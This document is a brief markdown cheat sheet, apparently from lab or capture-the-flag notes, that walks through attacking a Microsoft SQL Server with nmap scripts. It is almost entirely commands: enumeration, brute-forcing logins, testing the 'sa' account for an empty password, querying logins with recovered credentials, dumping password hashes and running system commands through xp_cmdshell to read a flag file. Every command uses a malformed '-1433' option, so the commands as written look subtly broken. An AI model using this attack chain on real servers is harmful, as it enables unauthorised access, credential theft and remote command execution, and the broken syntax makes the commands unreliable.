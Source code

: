 **MSSQL**: It is a Microsoft SQL
##### Identify MSSQL Database Server
```
nmap -sV IP
```

##### Find Info from the MSSQL Server with NTLM
```
# Discover Server Information
nmap -1433 --script ms-sql-info IP
```

Sending an MS-TDS NTLM authentication request with an invalid domain and null credentials will cause the remote service to respond with an NTLMSSP message disclosing information to include NetBIOS, DNS, and OS build version.
```
# NTLM script
nmap -1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 IP
```

##### Brute Force the Username and the Password
```
nmap -1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt IP
```

##### Identify `sa` User Password
The `sa` user is the default system administrator in Microsoft SQL Server (MSSQL). The `sa` account has full administrative rights.
```
# Checking Empty Password
nmap -1433 --script ms-sql-empty-password IP
```

##### Extract `sysusers` from MSSQL using 'query'
```
# We had username:password from previous enumeration
nmap -1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="select * from master..syslogins" IP -oN output.txt
```

##### Dump MSSQL Users Hashes
```
nmap -1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria IP
```

##### Execute a Command on MSSQL to retrieve the flag
```
nmap -1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" IP
```
